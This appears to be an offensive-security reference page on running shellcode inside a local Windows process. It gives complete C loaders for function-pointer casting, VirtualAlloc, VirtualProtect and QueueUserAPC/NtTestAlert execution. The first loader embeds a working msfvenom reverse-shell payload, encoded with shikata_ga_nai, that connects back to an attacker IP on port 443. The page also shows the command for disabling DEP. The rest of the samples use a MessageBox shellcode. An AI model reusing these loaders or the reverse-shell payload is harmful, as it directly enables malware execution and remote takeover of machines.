

# Execute Shellcode Locally
Execute shellcode locally in your own process.
## Typecast shellcode to function
This is the original, pre DEP, way of executing shellcode.
DEP prevents the stack/the area of memory where you shellcode is from being executable.
DEP prevents this method from working anymore.To test this method, you can disable DEP -
bcdedit.exe /set nx AlwaysOff - and restart.
To bypass DEP, you allocate an executable memory block in your current or a remote process, copy the shellcode into it, and execute the shellcode from memory.
References•
https://blog.sevagas.com/Hide-meterpreter-shellcode-in-executable•
https://stackoverflow.com/questions/9593287/execute-shellcode-by-casting-to-function-pointer-in-visual-c#include <Windows.h>
// msfvenom -p windows/shell_reverse_tcp LHOST=192.168.58.142 LPORT=443 -f c -b "\x00\x0a\x0d"
// x86/shikata_ga_nai succeeded with size 351 (iteration=0)
// Payload size: 351 bytes
char shellcode[] = "\xdb\xcb\xbb\xba\xa6\x47\xc6\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x83\xe8\xfc\x31\x58\x13\x03\xe2\xb5\xa5\x33\xee\x52\xab"
"\xbc\x0e\xa3\xcc\x35\xeb\x92\xcc\x22\x78\x84\xfc\x21\x2c\x29"
"\x76\x67\xc4\xba\xfa\xa0\xeb\x0b\xb0\x96\xc2\x8c\xe9\xeb\x45"
"\x0f\xf0\x3f\xa5\x2e\x3b\x32\xa4\x77\x26\xbf\xf4\x20\x2c\x12"
"\xe8\x45\x78\xaf\x83\x16\x6c\xb7\x70\xee\x8f\x96\x27\x64\xd6"
"\x38\xc6\xa9\x62\x71\xd0\xae\x4f\xcb\x6b\x04\x3b\xca\xbd\x54"
"\xc4\x61\x80\x58\x37\x7b\xc5\x5f\xa8\x0e\x3f\x9c\x55\x09\x84"
"\xde\x81\x9c\x1e\x78\x41\x06\xfa\x78\x86\xd1\x89\x77\x63\x95"
"\xd5\x9b\x72\x7a\x6e\xa7\xff\x7d\xa0\x21\xbb\x59\x64\x69\x1f"
"\xc3\x3d\xd7\xce\xfc\x5d\xb8\xaf\x58\x16\x55\xbb\xd0\x75\x32"
"\x08\xd9\x85\xc2\x06\x6a\xf6\xf0\x89\xc0\x90\xb8\x42\xcf\x67"
"\xbe\x78\xb7\xf7\x41\x83\xc8\xde\x85\xd7\x98\x48\x2f\x58\x73"
"\x88\xd0\x8d\xd4\xd8\x7e\x7e\x95\x88\x3e\x2e\x7d\xc2\xb0\x11"
"\x9d\xed\x1a\x3a\x34\x14\xcd\x85\x61\x2c\x83\x6e\x70\x50\x9a"
"\xd5\xfd\xb6\xf6\x39\xa8\x61\x6f\xa3\xf1\xf9\x0e\x2c\x2c\x84"
"\x11\xa6\xc3\x79\xdf\x4f\xa9\x69\x88\xbf\xe4\xd3\x1f\xbf\xd2"
"\x7b\xc3\x52\xb9\x7b\x8a\x4e\x16\x2c\xdb\xa1\x6f\xb8\xf1\x98"
"\xd9\xde\x0b\x7c\x21\x5a\xd0\xbd\xac\x63\x95\xfa\x8a\x73\x63"
"\x02\x97\x27\x3b\x55\x41\x91\xfd\x0f\x23\x4b\x54\xe3\xed\x1b"
"\x21\xcf\x2d\x5d\x2e\x1a\xd8\x81\x9f\xf3\x9d\xbe\x10\x94\x29"
"\xc7\x4c\x04\xd5\x12\xd5\x34\x9c\x3e\x7c\xdd\x79\xab\x3c\x80"
"\x79\x06\x02\xbd\xf9\xa2\xfb\x3a\xe1\xc7\xfe\x07\xa5\x34\x73"
"\x17\x40\x3a\x20\x18\x41";
int main()
{
((void(*)())shellcode)();
return 0;
}
## Allocate new executable memory & copy shellcode
As it sounds.
Allocate some new memory, mark it executable, copy your shellcode to it, typecast your shellcode to a function, and it will execute.
Tested on Windows 10 x64 compiled as x86.
#include <stdio.h>
#include <Windows.h>
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
int main(void)
{
LPVOID local_mem = NULL;
local_mem = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (local_mem == NULL)
{
printf("VirtualAlloc failed: %d \n", GetLastError());
return EXIT_FAILURE;
}
memcpy(local_mem, shellcode, sizeof(shellcode));
((void(*)())local_mem)();
return 0;
}
## Mark existing shellcode memory as executable
Use VirtualProtect to mark the existing memory containing your shellcode as executable.
Tested on Windows 10 x64 compiled as x86.
#include <stdio.h>
#include <Windows.h>
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
int main(void)
{
BOOL b_ret = FALSE;
DWORD old_protect = 0;
b_ret = VirtualProtect(shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &old_protect);
if (b_ret == FALSE)
{
printf("VirtualProtect failed: %d \n", GetLastError());
return EXIT_FAILURE;
}
((void(*)(void))shellcode)();
return 0;
}
## QueueUserAPC and NtTestAlert
https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalertNtTestAlert will empty the APC queue for the current thread.
You can queue an APC to execute your shellcode and then empty the queue with
NtTestAlert to force your shellcode to execute.
https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.htmlCode compiled on Windows 10 x64 2004 as x86.
x86 binary used because I couldn't find reliable x64 shellcode.
#include <stdio.h>
#include <Windows.h>
typedef NTSTATUS(*t_NtTestAlert)();
t_NtTestAlert d_NtTestAlert = NULL;
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
int main(void)
{
LPVOID local_mem = NULL;
local_mem = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (local_mem == NULL)
{
printf("VirtualAlloc failed: %d \n", GetLastError());
return EXIT_FAILURE;
}
memcpy(local_mem, shellcode, sizeof(shellcode));
printf("[+] copied shellcode into executable memory \n");
QueueUserAPC((PAPCFUNC)local_mem, GetCurrentThread(), 0);
printf("[+] queued APC on current thread \n");
printf("[+] calling NtTestAlert to empty the APC queue for the current thread \n");
d_NtTestAlert = (t_NtTestAlert)GetProcAddress(GetModuleHandleA("Ntdll.dll"), "NtTestAlert");
d_NtTestAlert();
return 0;
}
## via Fibers
https://www.ired.team/offensive-security/code-injection-process-injection/executing-shellcode-with-createfiberhttp://dronesec.pw/blog/2019/08/12/code-execution-via-fiber-local-storage/